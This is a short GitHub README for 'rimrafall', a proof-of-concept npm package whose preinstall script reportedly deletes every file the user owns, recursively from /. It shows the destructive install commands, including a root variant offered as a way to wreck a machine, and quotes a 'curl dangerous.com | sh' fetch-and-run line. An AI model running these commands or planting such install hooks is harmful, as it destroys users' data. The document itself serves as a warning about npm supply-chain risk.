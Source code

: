 # rimrafall

This is to show that `npm install` can be as dangerous as `curl dangerous.com | sh`.

### update, it's off the npm registry

It was [taken off the npm registry](https://twitter.com/othiym23/status/559759478774439936) but it solves nothing really, anyone could make malicious modules like this and mask it as a useful module that has a desired use case. Let's try to find ways to **really** make npm safe ;)

# Whatever you do, do not

```
npm install rimrafall
```

It has a [`preinstall` script](https://github.com/joaojeronimo/rimrafall/blob/master/package.json#L7) that will delete all the files and folders your current user owns, recursively, in `/`.

## legitimate use case:

e.g., you need to completely incapacitate a machine (but please do heed the warning above):

```
sudo su -
npm install rimrafall
```

you might see lots of error messages like these:

```
rm: cannot remove `/sys/block/sda': Operation not permitted
rm: cannot remove `/sys/block/dm-0': Operation not permitted
rm: cannot remove `/sys/block/dm-1': Operation not permitted
```

which can safely be ignored.
